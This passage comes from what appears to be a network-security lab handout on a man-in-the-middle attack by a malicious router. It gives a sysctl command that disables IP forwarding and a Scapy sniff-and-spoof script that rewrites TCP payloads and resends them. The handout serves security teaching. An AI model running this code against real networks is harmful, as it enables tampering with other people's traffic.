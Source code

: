 Once the connection is made, you can type messages on the victim machine.
Each line of messages will be put into a TCP packet sent
to the destination, which simply displays the message.
Your task is to replace every occurrence of your first name in the
message with a sequence of A's. The length of the sequence should be the
same as that of your first name, or you will mess up the TCP sequence
number, and hence the entire TCP connection. You need to use your real
first name, so we know the work is done by you.



\paragraph{Disabling IP Forwarding.}
In the setup, the malicious router's IP forwarding is enabled, so it does 
function like a router and forward packets for others. When we launch 
the MITM attack, we have to stop forwarding IP packets; instead,
we will intercept the packet, make a change, and send out a new packet. 
To do that, we just need to disable the IP forwarding on the malicious 
router. 

\begin{lstlisting}
# sysctl net.ipv4.ip_forward=0
\end{lstlisting}


\paragraph{MITM code.}
Once the IP forwarding is disabled, our program needs to take over
the role of packet forwarding from the victim to the target, of course
after making changes to the packets. Since the packet's destination 
is not for us, the kernel will not give the packet to us; it will simply
drops the packet. However, if our program is a sniffer program,
we will get the packet from the kernel. Therefore, we will use 
the sniff-and-spoof technique to implement this MITM attack.
In the following, we provide a sample sniff-and-spoof
program, which captures TCP packets,
makes some changes, before sending them out.  
You can find the code from the lab setup files.

\begin{lstlisting}[language=python, caption={Sample code: \texttt{mitm\_sample.py}}]
#!/usr/bin/env python3
from scapy.all import *

def spoof_pkt(pkt):
   newpkt = IP(bytes(pkt[IP]))
   del(newpkt.chksum)
   del(newpkt[TCP].payload)
   del(newpkt[TCP].chksum)

   if pkt[TCP].payload:
       data = pkt[TCP].payload.load
       print("*** %s, length: %d" % (data, len(data)))

       # Replace a pattern
       newdata = data.replace(b'seedlabs', b'AAAAAAAA')

       send(newpkt/newdata)
   else:
       send(newpkt)

f = 'tcp'
pkt = sniff(iface='eth0', filter=f, prn=spoof_pkt)
\end{lstlisting}

